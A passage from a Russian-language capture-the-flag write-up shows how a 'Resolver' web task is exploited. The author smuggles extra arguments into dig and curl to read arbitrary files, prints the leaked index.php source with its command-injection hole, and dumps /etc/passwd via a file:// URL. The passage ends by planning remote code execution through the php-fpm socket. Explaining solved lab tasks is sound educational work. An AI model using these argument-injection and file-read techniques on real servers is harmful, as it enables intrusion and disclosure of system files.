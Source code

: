 Родительский процесс для `sh` — это `php-fpm7.4`. Для тех, кто мало знаком с PHP, напомню, что обычно веб-сервер, который обрабатывает HTTP-запросы, не исполняет PHP-код сам, вместо этого он отправляет запрос на исполнение PHP-кода каким-то другим процессам или сервисам (чаще всего взаимодействие между ними происходит по протоколу CGI). `php-fpm7.4` — это как раз такой процесс, который просто исполняет PHP-код и возвращает результат веб-серверу.

---

Вся эта магия с `/proc/<>/status` и Pid/PPid нужна была для одной цели — понять, что серверный скрипт написан на PHP, и наши запросы обрабатывает `php-fpm7.4`. Зная это, мы можем попробовать добраться до исходного кода скрипта на PHP и до конфигурации `php-fpm7.4`.

Чтобы получить исходный код, нужна была некоторая интуиция и опыт в подобных вещах. Имя файла с исходным кодом на PHP — единственное, что мы не можем (_я не придумал как_) получить, имея способность читать произвольные файлы. Но, скорее всего, для тех, кто решал этот таск, угадать имя файла не составило труда: файл назывался `index.php`, это стандартное название. Попробуем его прочитать напрямую командой `@0.0.0.0 -f index.php`:

_Мой метод, основанный на ошибках `dig`, возвращает файл без переводов строк, но файл остаётся читаемым._

```
<html> <head> <title>Resolver</title> </head> <body style="text-align: center"> <h1>Resolver</h1> <form method="GET" action="/"> Host: <input type="text" name="hostname" value="<?php if (isset($_GET["hostname"])) { echo htmlspecialchars($_GET["hostname"]); } else { echo "google.com"; } ?>"> <?php if (isset($_GET["usecurl"])) { echo " <input type=\"hidden\" name=\"usecurl\" value=\"1\">\n"; } ?> <input type="submit" value="Resolve"> <br> </form> <textarea id="result" style="width: 1000px; height: 500px;"> <?php . if (isset($_GET["hostname"])) { $hostname = $_GET["hostname"]; . if (strlen($hostname) === 0) { die("invalid hostname\n"); } . if (isset($_GET["usecurl"])) { $program = "curl"; } else { $program = "dig"; } . $command = "/usr/bin/" . $program . " . passthru(escapeshellcmd($command)); } . ?> </textarea> </body> </html>
```

Если разобрать исходный код, можно увидеть, что, кроме `dig`, мы также можем запускать программу `curl`, если передадим специальный GET-параметр `?usecurl=1`. Для нас `curl` удобнее, потому что он может выводить файлы без искажений. Чтобы прочитать какой-либо файл с помощью `curl`, к нему можно обратиться по специальному протоколу `file://`. Например, можно прочитать файл `/etc/passwd`, обратившись к нему как `file:///etc/passwd` (не забыв указать GET-параметр `?usecurl=1`):

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Из исходного кода `index.php` мы больше ничего не можем получить: аргументы для `dig` хорошо защищены PHP-функцией `escapeshellcmd`. Значит, надо искать какой-то другой способ получения RCE.

---

Мы помним, что PHP-скрипты обрабатываются процессом `php-fpm7.4`, а сам этот процесс управляется веб-сервером по протоколу CGI. При этом передача параметров в `php-fpm7.4` для исполнения PHP-кода передаётся по сокету: это может быть как файловый сокет, так и TCP-сокет. Если мы узнаем, как `php-fpm7.4` принимает параметры, мы сможем попробовать передать их сами, используя `curl`, и таким образом мы сможем выполнить произвольный PHP-код, то есть получим RCE.
